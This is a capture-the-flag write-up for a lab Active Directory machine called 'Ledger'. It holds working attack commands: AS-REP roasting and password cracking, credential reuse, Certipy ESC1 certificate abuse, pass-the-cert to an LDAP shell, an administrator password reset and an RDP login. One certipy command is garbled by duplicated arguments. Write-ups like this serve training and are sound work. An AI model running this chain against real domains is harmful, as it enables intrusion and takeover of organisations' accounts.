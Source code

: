 # Ledger

## Machine Info

Domain name: `THM.local`

FQDN: `labyrinth.thm.local`&#x20;

Dinaub SID: `S-1-5-21-1966530601-3185510712-10604624`





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.242.176 -oN port_scan.txt

Nmap scan report for 10.10.242.176
Host is up (0.043s latency).
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-29 07:27:05Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
|_ssl-date: 2025-07-29T07:28:13+00:00; -2s from scanner time.
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA
| Not valid before: 2023-05-12T07:26:00
|_Not valid after:  2028-05-12T07:35:59
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-29T07:28:13+00:00; -2s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
| Not valid before: 2023-05-12T07:32:36
|_Not valid after:  2024-05-11T07:32:36
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=labyrinth.thm.local
| Not valid before: 2025-07-28T07:22:51
|_Not valid after:  2026-01-27T07:22:51
|_ssl-date: 2025-07-29T07:28:13+00:00; -1s from scanner time.
7680/tcp  open  pando-pub?
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC

```



## LDAP Enum

With this nmap command we can notice that we anonymous ldap is enabled, and we can use this flaw to enum the Domain.

```bash
nmap -p 389 --script ldap-search 10.10.242.176
```



### AS-REP Roastable user

Now, with impacket we can enumerate the user with "**Do not require Kerberos preauthentication**" parameter to enable.

```bash
impacket-GetNPUsers THM.local/ -dc-ip 10.10.242.176

Name            MemberOf  PasswordLastSet             LastLogon  UAC      
--------------  --------  --------------------------  ---------  --------
SHELLEY_BEARD             2023-05-30 11:46:05.083950  <never>    0x410200 
ISIAH_WALKER              2023-05-30 11:46:09.380690  <never>    0x410200 
QUEEN_GARNER              2023-05-30 11:46:14.208632  <never>    0x410200 
PHYLLIS_MCCOY             2023-05-30 11:46:20.583409  <never>    0x410200 
MAXINE_FREEMAN            2023-05-30 11:46:51.475615  <never>    0x410200 
```

Request the tgt ticket for all user above.

```bash
impacket-GetNPUsers THM.local/SHELLEY_BEARD -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/ISIAH_WALKER -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/QUEEN_GARNER -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/PHYLLIS_MCCOY -dc-ip 10.10.242.176 -no-pass
impacket-GetNPUsers THM.local/MAXINE_FREEMAN -dc-ip 10.10.242.176 -no-pass
```

Copy all results in a file and try to crack at least one.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt tgts_ticket.txt
```

Nothing results :(



### AD Object description

Check if there are some passwords in the user's AD description

{% code overflow="wrap" %}
```bash
ldapsearch -x -H ldap://thm.local -b "dc=thm,dc=local" "(objectClass=user)" cn description

[..snip..]
# SUSANNA_MCKNIGHT, Test, ITS, Tier 1, thm.local
dn: CN=SUSANNA_MCKNIGHT,OU=Test,OU=ITS,OU=Tier 1,DC=thm,DC=local
cn: SUSANNA_MCKNIGHT
description: Please change it: CHANGEME2023!
[..snip..]
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>

We found a possible password for the SUSANNA\_MCKNIGHT user. Using cme check if the password is still valid.

```bash
crackmapexec smb 10.10.242.176 -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
```

<figure><img src="../../../.gitbook/assets/image (332).png" alt=""><figcaption></figcaption></figure>

It's still vaild.



## Bloodhound enumeration

With the credentials found, enumerate the Domain with bloodhound

{% code overflow="wrap" %}
```bash
bloodhound-python -c all -ns 10.10.242.176 -dc labyrinth.thm.local -d thm.local --zip -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!'
```
{% endcode %}

The bloodhound research didn't find out interesting things to escalate our priviliges



## AD CS finding

Try to find out some Certs misconfiguration .

{% code overflow="wrap" %}
```bash
certipy find -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!' -dc-ip 10.10.242.176 -vulnerable -enabled

cat *_Certipy.txt | grep ESC
```
{% endcode %}

From this output we can see that the CA:

```
Certificate Authorities             : thm-LABYRINTH-CA
```

It's vulnerable to ESC1.

```
ESC1        : Enrollee supplies subject and template allows client authentication.
```

### ESC1 flaw

Using this flaw we can request a certificate for any user in the Domain.&#x20;

{% code overflow="wrap" %}
```bash
certipy req -ca 'thm-LABYRINTH-CA' -dc-ip '10.10.242.176' -u 'SUSANNA_MCKNIGHT' -p certipy req -u "SUSANNA_MCKNIGHT@thm.local" -p 'CHANGEME2023!' -dc-ip '10.10.102.159' -target "labyrinth.thm.local" -ca 'thm-LABYRINTH-CA' -template 'ServerAuth' -upn 'administrator@thm.local'
```
{% endcode %}

Now the certificate is broken and when i try to request the TGT, it generates a PADATA error because the certificate is expired.

The solution is extract the .key and .crt from the pfx and login with Pass-the-cert python tool.

{% code overflow="wrap" %}
```bash
certipy cert -pfx administrator.pfx -nokey -out "administrator.crt"
certipy cert -pfx administrator.pfx -nocert -out "administrator.key"

python3 passthecert.py -action ldap-shell -crt ../../administrator.crt  -key ../../administrator.key -domain thm.local -dc-ip 10.10.102.159
```
{% endcode %}

Now that we have a LDAP-SHELL we can use the function `change_password` to change the administrator  user password and access to the system as administrator.

```bash
change_password BRADLEY_ORTIZ Password123!
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## RDP as administrator user

```bash
xfreerdp3 /v:10.10.102.159 /u:BRADLEY_ORTIZ /p:Password123!
```

Run as Powershell as administrator and print the user and root flag.

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
